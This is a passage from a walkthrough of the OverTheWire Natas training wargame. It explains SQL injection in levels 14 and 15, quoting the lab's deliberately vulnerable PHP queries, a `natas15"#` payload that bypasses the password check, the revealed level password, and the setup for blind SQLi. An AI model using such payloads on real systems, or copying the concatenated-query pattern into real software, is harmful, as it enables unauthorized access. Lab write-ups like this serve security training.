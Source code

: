 The query is formulated without prepared statements, and is thus vulnerable to SQLi. Look at the line the query is assembled, and let's break it down.

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
``` 

If you look at the HTML in the source code, the query is taking exactly what we write into these fields. The PHP requests the username from the input field with name="username" using `$_REQUEST["username"]` and the password from the input field with the name="password" using using `$_REQUEST["password"]`. 

```html
<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
```

The query being run will really be the following, with username and password being taken directly from the login form fields.
```sql
SELECT * from users where username="<user field>" and password="<pass field>"
```

If you want to find the password for user `natas15`, you could supply `natas15"#` as the username and comment out the rest of the command:
```sql
SELECT * from users where username="natas15"#" and password="<pass field>"
```
The injection runs and we get the password `AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`.

## Level 15
> http://natas15.natas.labs.overthewire.org/<br>`natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`

This challenge involves blind SQLi. We are only told if a user exists or not. Try some usernames, then check user natas16 to see that they exist. 

To make this easier, we are going to use a query string in the URL. See [Query string](https://en.wikipedia.org/wiki/Query_string) on Wikipedia. We can supply our username field with the letter `a` by going to the following URL: `http://natas15.natas.labs.overthewire.org/index.php?username=a`.
```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
```